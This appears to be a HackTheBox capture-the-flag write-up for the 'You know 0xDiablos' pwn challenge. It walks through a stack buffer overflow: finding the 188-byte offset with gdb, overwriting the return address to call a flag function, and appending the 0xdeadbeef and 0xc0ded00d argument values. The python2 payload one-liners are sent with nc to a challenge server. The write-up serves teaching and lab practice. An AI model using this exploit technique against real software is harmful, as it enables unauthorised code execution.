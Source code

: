 ```yaml
---
title: You know 0xDiablos HackTheBox
published: true
tags: [htb ctf pwn bof buffer overflow stack little endian gdb radare2 r2]
---
```

# You know 0xDiablos
## challenge description
> I missed my flag

## trying a large input to cause an overflow

- by executing the binary with a large input delivers us a segmentation fault

```bash
python2 -c "print 'A' * 300 " | ./vuln
```

`37978 segmentation fault (core dumped)  ./vuln`

## investigating the error

- by debugging the binary with `gdb` and the same input we get the following error message: Cannot access memory at address `0x41414141`

> this is the part of the input which overwrites the return pointer which is restored when the `vuln` functions returns the `main` function

- next we can use an unique pattern to get the exact part of the input which overflows
- using this pattern: `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9` results in the following error: `Cannot access memory at address 0x33674132`
- calculating the offset results in: `188`

> Note: the memory address is in little-endian

## crafting the payload

- in order to print the contents of of the flag we have to manipulate the callflow to call the `flag` function at address: `0x80491e2`

```bash
python2 -c "print 'A' * 188 + '\xe2\x91\x04\x08'" | ./vuln
```

results in: 

```
You know who are 0xDiablos:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hurry up and try in on server side.
```

Hurray!!! Lets test it: 

```bash
python2 -c "print 'A' * 188 + '\xe2\x91\x04\x08'" | nc 165.232.98.156 30180

You know who are 0xDiablos:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

- no flag ... let's investigate

## fix callflow

- by checking the `flag` function we have to pass three checks in order to simulate the envionment on the server and print the flag

1. there have to be a file called `flag.txt` ![file existence](youknow-file-existence.png)
2. `$rbp+0x8` has to be equal to `0xdeadbeef`![deadbeef check](youknow-deadbeef-check.png)
3. `$rbp+0xc` has to be equal to `0xc0ded00d`![c0ded00d check](youknow-c0ded00d-check.png)

- luckily we can manipulate `$rbp+0x8` and `$rbp+0xc` by extending the input: 
```bash
python2 -c "print 'A' * 188 + '\xe2\x91\x04\x08' + '\x41\x42\x43\x44' + '\xef\xbe\xad\xde' + '\x0d\xd0\xde\xc0'" | nc 165.232.98.156 30180
```

- we get the flag 


